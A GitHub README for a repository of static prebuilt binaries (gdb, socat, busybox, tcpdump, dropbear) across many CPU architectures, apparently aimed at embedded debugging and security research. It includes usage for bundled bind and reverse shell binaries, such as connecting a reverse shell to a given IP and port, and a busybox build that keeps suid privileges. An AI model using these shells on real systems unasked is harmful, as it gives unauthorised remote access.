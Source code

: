 # prebuilt-multiarch-bin

prebuilt binaries for multiple architeture (arm, armeb, aarch64, aarch64_be, mips, mips1, mipsel, mipsel1, mips64, mips64el, powerpc, powerpc64, powerpc64le, riscv64, i586, x86_64)

all binaries are statically linked and stripped

Please go to the [Release](https://github.com/leommxj/prebuilt-multiarch-bin/releases) page for download. `*archName*_tools.zip` contains tools' binary (see Tools Section) for that specific arch, and `allinone.zip` contains all of it.

Or download single file directly from `bin` branch

Source file and Scripts are in `src` branch

## Buildroot

* MIPS-I and MIPSEL-I are using `buildroot 2014.11` because they remove the support after that version
* others are using `buildroot 2019.11.1`
* compiled toolchain can be found at action's artifacts page (mips1/mipsel1 are file package from `output/host`, others are from `make sdk`)

## Tools

- gdb (mips1/mips1el are using `gdb 7.12.1`, others are `8.3.1`)
- socat
- busybox (And busybox_nodrop is the one replace all BB_SUID_DROP with BB_SUID_MAYBE, which means it will not drop suid in applets)
- bind/reverse shell
- bind/reverse shell .so library (barely tested)
- tcpdump
- strace
- dropbear(mips1/mips1el are not static link `:(` )
- lsof

## Bind/Reverse Shell binary

* run the bind shell without arguments like `./bind_shell` will listening on the port 3343 and `./bind_shell 6666` will listen on 6666.
* run the reverse shell binary without arguments will connect to 127.0.0.1:3343 , one could use a hex editor the change cstring cotains the ip/port. or `./reverse_shell 1.1.1.1 12345` will connect to 1.1.1.1:12345; `./reverse_shell 1.1.1.1` will connect to 1.1.1.1:3343

## gdb (*Important*)

- gdbserver is compiled without libthread_db
- gdb need libthread_db.so.1 to support multithread debug, if you run into SIGSEGV when `r` the program, run `set libthread-db-search-path 0` in gdb first, then there will be warning about libthread_db.so.1, just ignore it.

## Github Actions

the config file for buildroot and github actions' workflow file are in the `src` branch

## Changelog
* ~~20220514 - change to use release, old way can be found in `master_deprecated` branch~~ 20230305 - store files at `bin` branch with git lfs
* 20230217 - fix gdb build on x86_64
* 20230305 - enable telnetd applet and its stanalone mode in busybox
